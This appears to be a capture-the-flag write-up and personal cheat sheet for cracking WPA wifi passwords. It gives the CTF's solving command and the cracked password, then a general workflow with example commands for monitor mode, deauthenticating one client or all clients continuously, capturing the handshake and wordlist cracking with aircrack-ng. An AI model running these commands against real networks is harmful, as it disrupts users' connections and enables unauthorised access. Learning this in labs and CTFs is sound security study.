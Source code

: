 # Solving the ctf 
  1. check BSSID of target wifi with this command: `nmcli dev wifi`
  1. `sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 02:1A:11:FF:D9:BD -e 'James Honor 8' NinjaJc01-01.cap`
  2. found the password: greeneggsandham

---

## Wifi Hacking Workflow(Deauthentication Attack Method)
  ```sh
  1. use airmon-ng to enter monitor mode
  2. [opcional] force the clients from the target network to de-authenticate to speed up the process of gathering the 4 way handshake
  3. use airdump-ng to capture packets passing through the interface(monitor mode interface) into pcap files
  4. use aircrack-ng to crack the password from the pcap file
  ```

---

## 1. Armon-ng(used to change interaces into monitor mode)
  - monitor mode: `sudo airmon-ng start wlan0` (assuming wlan0 is your interface's name)
  - the name will likely be: `wlan0mon`
  - kill processes using that network adapter: `airmon-ng check kill`

---

## 2. Aireplay-ng(force the clients to deauth to speed up the process of getting the passwd hash)
  
  deauthenticate specific client:
  <details closed>
    - example use: `sudo aireplay-ng --deauth 10 -a 00:11:22:33:44:55 -c AA:BB:CC:DD:EE:FF wlan0mon`

    - `--deauth 10`: Sends 10 deauthentication packets.
    - `-a 00:11:22:33:44:55`: The MAC address of the target access point.
    - `-c AA:BB:CC:DD:EE:FF`: The MAC address of the client to deauthenticate.
    - `wlan0mon`: Yor wireless interface in monitor mode
  </details>

  deauthenticate all clients:
  <details closed>
    - example use: `sudo aireplay-ng --deauth 0 -a 00:11:22:33:44:55 wlan0mon`

    - `--deauth 0`: Sends deauthentication packets continuously (0 means infinite).
    - `-a 00:11:22:33:44:55`: The MAC address of the target access point.
    - `wlan0mon`: Your wireless interface in monitor mode.
  </details>

---

## 3. Airodump-ng(captures packets from an interface in monitor mode)
  - `sudo airodump-ng wlan0mon`

  - example use: `sudo airodump-ng -c <channel> --bssid <BSSID> -w capture wlan0mon`
    - `-c <channel>`: Specifies the channel of the target network.
    - -`b <BSSID>`: Specifies the BSSID (MAC address) of the target access point.
    - `-w capture`: Writes captured packets to a file named capture-01.cap (increments the file number for subsequent captures).

---

## 4. Aircrack-ng(cracks the hash of the passphrase from the 4-way-handshake pcap file)
  - Important switches
  ```sh
  -b (to specify the bssid)
  -e (to specify the essid)
  -w (to specify a wordlist)
  ```

  - example use: `sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 00:11:22:33:44:55 capture.cap`
